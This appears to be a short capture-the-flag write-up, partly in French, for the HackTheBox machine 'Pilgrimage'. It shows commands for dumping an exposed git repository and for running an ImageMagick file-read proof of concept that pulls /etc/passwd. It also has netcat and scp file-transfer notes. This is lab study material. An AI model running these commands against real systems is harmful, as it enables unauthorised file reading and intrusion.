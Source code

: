 
- scan nmap

-------
- git dumper 
```bash
git clone https://github.com/Ebryx/GitDump
python3 ./git-dump.py http://pilgrimage.htb/
```

------

- analyse code 

- run magic version

- search exploit in internet 
----
- install exploit

```bash
# clone the repo
git clone https://github.com/Sybil-Scan/imagemagick-lfi-poc
cd imagemagick-lfi-poc

# installer pypng 
sudo python3 install pypng

# run the exploit
python3 generate.py -f "/etc/passwd" -o exploit.png
```
----
- test with passwd

- recover data

- test with db

- recover data 2 

- find ssh key 

- connect through ssh 

- find file 

- do privilege escalation

- find vector in ps -aux

- understand vector 

- find exploit 

- use exploit 

- get flag


-----
### Ce que j'ai Appris :

* file transfert avec ssh ou netcat
    ```bash
    # Syntax pour envoyer des fichier via ssh:
    # scp <source> <destination>

    #To copy a file from B to A while logged into B:
    scp /path/to/file username@a:/Path/to/destination

    #To copy a file from B to A while logged into A:
    scp username@b:/Path/to/file /path/to/destination

    #or
    # listenner
    nc -l -p <Port> > <Filename>

    # sender
    nc -v -w 2 -u <RecieverIp> -p <Port> < <Filename>
    ```
* processus listing 
    ```bash
    netstat -tnlp
    ```
* 
